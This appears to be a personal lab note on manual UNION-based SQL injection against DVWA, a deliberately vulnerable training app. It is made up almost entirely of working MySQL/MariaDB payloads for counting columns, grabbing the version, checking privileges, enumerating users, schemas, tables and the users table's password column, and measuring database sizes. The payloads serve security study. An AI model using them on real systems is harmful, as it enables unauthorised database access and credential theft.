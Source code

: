 # 01 - Database Reconnaissance

Search Tag(s): #sql-injection #union #enumeration-and-discovery #dvwa

## 1.1 - Columns Enumeration

^78ef92

### 1.1.1 - ORDER BY Detection

- We need to determine number of columns before we perform the next step.

```sql
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```

- Keep Enumerating it until you've triggered an error.

![[1.1 - ORDER BY Enumerate One Field.png]]

```
Unknown column '3' in 'order clause'
```

- 3 - 1 = 2. We have two columns.

- You can also to enumerate is to end it at 100 fields.

```sql
' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100#
```

### 1.1.2 - GROUP BY Detection

- You can enumerate it with **GROUP BY** method and you'll get the same results.

```sql
' GROUP BY 1#
' GROUP BY 2#
' GROUP BY 3#
```

- You can also to enumerate is to end it at 100 fields.

```sql
' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100#
```

### 1.1.3 - UNION Detection

```sql
' UNION SELECT 1, 2#

' UNION SELECT 1, 2, 3#

' UNION SELECT NULL, NULL#

' UNION SELECT NULL, NULL, NULL#
```

## 1.2 - Enumeration and Discovery

### 1.2.1 - UNION Enumeration

#### 1.2.1.1 - Banner Grab

Sometimes when we try to retrieve error messages. Sometimes the warning messages may not provide us the SQL server software might be running. However, we can discover it even further to grab the version of the DBMS back-end software is running.

```sql
' UNION SELECT 1, @@VERSION#

' OR 1=1 UNION SELECT 1, @@VERSION#

' UNION SELECT NULL, @@VERSION#

' OR 1=1 UNION SELECT NULL, @@VERSION#
```

- The DBMS server is MariaDB which is a fork of MySQL.

![[1.2 - Banner Grab.png]]

#### 1.2.1.2 - Current Database

```sql
' UNION SELECT NULL, DATABASE()#
```

- The current database is `dvwa`

![[1.3 - Current Database.png]]

#### 1.2.1.3 - Current Database User

```sql
' UNION SELECT NULL, USER()#
```

- The current database is `dvwa@localhost`.

![[1.4 - Current User.png]]

- Check the current database user is DBA (database administrator).

```sql
' UNION SELECT super_priv, NULL FROM mysql.user WHERE user = 'dvwa'#

' UNION SELECT CONCAT(user, '->', 'SUPER', '->', super_priv), NULL FROM mysql.user WHERE user = 'dvwa'#

' UNION SELECT GROUP_CONCAT(user, '->', 'SUPER', '->', super_priv), NULL FROM mysql.user WHERE user = 'dvwa'#
```

![[1.5 - DBA User.png]]

#### 1.2.1.4 - Enumerate DBMS Users

- Enumerate DBMS users.

```sql
' UNION SELECT user, NULL FROM mysql.user#

' UNION SELECT GROUP_CONCAT(user), NULL FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SUPER' AND GRANTEE LIKE "'dvwa'%"#
```

![[1.6 - Enumerate DBMS Users.png]]

- Enumerate DBA users.

```sql
' UNION SELECT GROUP_CONCAT(user, '->', 'SUPER', '->', super_priv, '\n'), NULL FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SUPER'#
```

![[1.7 - Enumerate DBA Users.png]]

#### 1.2.1.5 - Schema Database Enumeration

```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata#
```

![[1.8 - Enumerate Databases.png]]

Let's enumerate the tables.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables#

' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()#
```

![[1.9 - Enumerate Tables With The Current Database.png]]

You can narrow it down.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database() AND table_name LIKE 'user%'#
```

Let's note down the tables we've discovered that are potential to retrieve data.

```
users
```

Let's enumerate the columns.

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns#

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = database() AND table_name = 'users'#
```

![[1.10 - Enumerate Columns With The Current Database.png]]

Let's note down the columns we've discovered that are potential to retrieve data

```
user
password
```

## 1.2 - Calculate Size

### 1.2.1 - Database Size

#### 1.2.1.1 - All Databases

- Bytes

```sql
' UNION SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 , 2) FROM information_schema.tables#

' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#

' UNION SELECT NULL, GROUP_CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#
```

- Kilobytes

```sql
' UNION SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 , 2) FROM information_schema.tables GROUP BY table_schema#

' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' KB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#

' UNION SELECT NULL, GROUP_CONCAT('Database: ', table_schema, ' -> ', ' KB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#
```

- Megabytes

```sql
' UNION SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) FROM information_schema.tables GROUP BY table_schema#

' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#

' UNION SELECT NULL, GROUP_CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#
```

#### 1.2.1.2 - Current Database

- Bytes

```sql
' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery#
```

- Megabytes

```sql
' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery#
```

- Gigabytes

```sql
' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' GB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery#
```

---
## References

- [Hacking Articles: Form Based SQL Injection Manually](https://www.hackingarticles.in/form-based-sql-injection-manually/)

- [PayloadsAllTheThings SQL Injection: MySQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)